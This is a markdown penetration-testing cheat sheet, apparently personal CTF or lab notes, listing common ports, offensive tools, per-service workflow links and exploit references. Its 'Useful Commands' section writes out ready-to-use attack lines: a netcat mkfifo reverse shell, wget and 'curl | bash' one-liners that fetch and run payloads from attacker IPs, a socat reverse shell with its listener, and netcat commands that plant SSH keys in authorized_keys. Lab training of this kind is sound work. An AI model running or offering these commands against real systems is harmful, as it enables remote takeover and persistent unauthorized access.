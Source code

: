 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](tool/rustscan.md)
- [Nmap](tool/nmap.md)
- [MSFVenom](tool/msfvenom.md)
- [Gobuster](tool/gobuster.md)
- [Hydra](tool/hydra.md)
- [John the Ripper](tool/john.md)
- [Hashcat](tool/hashcat.md)
- [Netcat](tool/netcat.md)

## Workflow by service
- [SSH](service/ssh.md)
- [SMB](service/smb.md)
- [Telnet](service/telnet.md)
- [NFS](service/nfs.md)
- [FTP](service/ftp.md)
- [SMTP](service/smtp.md)
- [MySQL](service/mysql.md)

## Useful Commands
### Shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

### Download file
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```
```
curl 10.10.14.7/[FILE] | bash
```

### LinEnum

```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; /tmp/LinEnum.sh
```
```
curl 10.10.14.7/LinEnum.sh | bash
```

### Socat
#### Target
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

#### Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

#### To upgrade more
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

### Tramp (Emacs)

#### Basic
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; }
```

#### Socat Pattern
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; } || socat file:`tty`,raw,echo=0 TCP-L:7777;
```

#### Shell Upgrade Pattern
```
ls $HOME && { { ls $HOME/.ssh || mkdir $HOME/.ssh; } && nc -lp 7777 >> $HOME/.ssh/authorized_keys; } || { nc -lp 7777 > /tmp/upgrade-shell.sh && chmod +x /tmp/upgrade-shell.sh && . /tmp/upgrade-shell.sh; }
```

## CVEs
- CVE : 2014-6287 ([39161](cve/cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve/cve-2014-6287-49125.md))


## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

CyberChef  
https://gchq.github.io/CyberChef/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
